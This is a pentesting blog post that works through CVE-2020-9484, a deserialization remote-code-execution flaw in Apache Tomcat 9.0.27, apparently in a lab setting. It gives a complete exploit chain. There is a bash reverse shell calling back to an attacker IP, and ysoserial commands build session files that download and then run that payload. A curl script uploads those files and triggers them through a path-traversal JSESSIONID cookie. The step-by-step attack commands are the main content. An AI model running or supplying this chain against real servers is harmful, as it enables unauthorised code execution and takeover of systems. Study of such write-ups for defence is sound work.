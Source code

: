 ```yaml
---
title: Apache Tomcat Server - Deserialization of Untrusted Data (RCE)
author: Udesh
date: 2020-12-29
categories: [Pentesting]
tags: [Pentesting]
---
```


# Apache Tomcat Remote Code Execution - Deserialization of Untrusted Data

Apache Tomcat is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies. In this post we will dive into the analaysis of a vulnerability in the apache tomcat server 9.0.27. 
- [CVE - 2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484 "CVE - 2020-9484")

## Introduction
The vulnerability allows a remote attacker to execute arbitrary code on the target system. The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

## Prerequisites
1. The attacker is able to upload a file with arbitrary content.
2. We have to know the location where the file is uploaded
3. The PersistentManager is enabled and it is using a FileStore.

## Exploit
  Tomcat provide two implementations for session managment. 
- StandardManager
- PersistentManager

When you are using PersistentManager first, it checks the session is exists in the memory, if the session does not exist in memory it will check the session on the disk. When Tomcat receives a HTTP request with a JSESSIONID cookie, it will ask the Manager to check if this session already exists. Because the attacker can control the value of JSESSIONID sent in the request, what would happen if he put something like “JSESSIONID=../../../../../../tmp/12345“?

1. Tomcat requests the Manager to check if a session with session ID“../../../../../../tmp/12345 exists.
2. It will first check if it has that session in memory.
3. It does not. But the currently running Manager is a PersistentManager, so it will also check if it has the session on disk.
4. It will check at location directory + sessionid + ".session", which evaluates to “./session/../../../../../../tmp/12345.session“
5. If the file exists, it will deserialize it and parse the session information from it.

### Step 1:

In this case, I found my file upload path in server exception. So, my file path is /opt/samples/uploads

![1.PNG]({{site.baseurl}}/assets/img/post/post7/1.PNG)

### Step 2:
We need to create our payload. In here i used simple bash reverse shell.
```bash
#! /bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.102/8888 0>&1"
```
![2.PNG]({{site.baseurl}}/assets/img/post/post7/2.PNG)

### Step 3:
Create a serialized session file to download our payload with curl. To do this, I used ysoserial jar file. download it from [here](https://github.com/frohoff/ysoserial "here").

```bash
java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections2 'curl http://10.10.14.102/payload.sh -o /tmp/payload.sh' > downloadPayload.session
```
Then, Create a second serialized session file to execute our payload.

```bash
java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections2 'bash /tmp/payload.sh' > executePayload.session
```
Finally, we have created two session files as our malicious session payload. 

![3.PNG]({{site.baseurl}}/assets/img/post/post7/3.PNG)

### Step 4: 
Now, We need to create bash script for send curl command  with cookie and our malicious files.

```bash
#! /bin/bash
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JESSIONID=../../../opt/sample/uploads/downloadPayload' -F 'image=@downloadPayload.session'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JESSIONID=../../../opt/sample/uploads/executePayload' -F 'image=@executePayload.session'
```
Note: The server address `10.10.10.205:8080` is our tomcat server and `../../../opt/samples/uploads/` is the file upload path.

![4.PNG]({{site.baseurl}}/assets/img/post/post7/4.PNG)

### Step 5:
Finally, Setup the listner for the reverse shell and web server for the payload downloaded by the target.

![5.PNG]({{site.baseurl}}/assets/img/post/post7/5.PNG)

Now you can execute the curl bash script which we created in step 4 and get the reverse shell as the tomcat user. 😎

## References 
- https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
- https://github.com/frohoff/ysoserial

